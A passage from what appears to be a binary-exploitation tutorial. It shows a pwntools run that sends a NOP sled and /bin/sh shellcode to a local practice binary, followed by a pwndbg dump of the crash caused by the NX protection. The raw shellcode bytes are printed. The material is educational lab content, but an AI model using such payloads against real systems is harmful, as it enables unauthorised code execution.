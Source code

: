     pwndbg>


Executing our payload from before leaves us with this:

     python bypass_no_prot.py INFO
    [+] Starting local process './binary/vuln_with_nx': pid 65946
    [*] Switching to interactive mode
    Hello, I'm your friendly & totally secure binary :)!
    What is your name?
    Hello: \x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x901��F1�1��\x80�[1��C\x07\x89\x89C\x0c\xb0\x0b\x8d\x8dS\x0c̀���\xff\xff/bin/sh ��\xff!
    [*] Got EOF while reading in interactive
    $ whoami
    [*] Process './binary/vuln_with_nx' stopped with exit code -11 (SIGSEGV) (pid 65946)
    [*] Got EOF while sending in interactive


GDB reveals that something  went wrong:

    pwndbg>
    0xffffcd20 in ?? ()
    LEGEND: STACK | HEAP | CODE | DATA | RWX | RODATA
    [─────────────────────────────────────────────────────────────────REGISTERS──────────────────────────────────────────────────────────────────]
     EAX  0x119
     EBX  0x69622fff
     ECX  0xffffa7d0 ◂— 0x6c6c6548 ('Hell')
     EDX  0xf7fae870 (_IO_stdfile_1_lock) ◂— 0x0
     EDI  0xf7fad000 (_GLOBAL_OFFSET_TABLE_) ◂— 0x1b5db0
     ESI  0xffffce50 ◂— 0x2
     EBP  0x68732f6e ('n/sh')
    *ESP  0xffffce10 —▸ 0xffffce00 ◂— 0xffffe5e8
    *EIP  0xffffcd20 ◂— 0x90909090
    [───────────────────────────────────────────────────────────────────DISASM───────────────────────────────────────────────────────────────────]
       0x804851e  <totally_secure+88>    add    esp, 0x10
       0x8048521  <totally_secure+91>    nop    
       0x8048522  <totally_secure+92>    mov    ebx, dword ptr [ebp - 4]
       0x8048525  <totally_secure+95>    leave  
       0x8048526  <totally_secure+96>    ret    
        ↓
     ► 0xffffcd20                        nop    
       0xffffcd21                        nop    
       0xffffcd22                        nop    
       0xffffcd23                        nop    
       0xffffcd24                        nop    
       0xffffcd25                        nop    
    [───────────────────────────────────────────────────────────────────STACK────────────────────────────────────────────────────────────────────]
    00:0000│ esp  0xffffce10 —▸ 0xffffce00 ◂— 0xffffe5e8
    01:0004│      0xffffce14 ◂— 0x0
    02:0008│      0xffffce18 ◂— 0x2
    03:000c│      0xffffce1c ◂— 0x0
    04:0010│      0xffffce20 ◂— 0x2
    05:0014│      0xffffce24 —▸ 0xffffcee4 —▸ 0xffffd0c2 ◂— 0x69622f2e ('./bi')
    06:0018│      0xffffce28 —▸ 0xffffcef0 —▸ 0xffffd1e9 ◂— 0x4e5f434c ('LC_N')
    07:001c│      0xffffce2c —▸ 0xffffce50 ◂— 0x2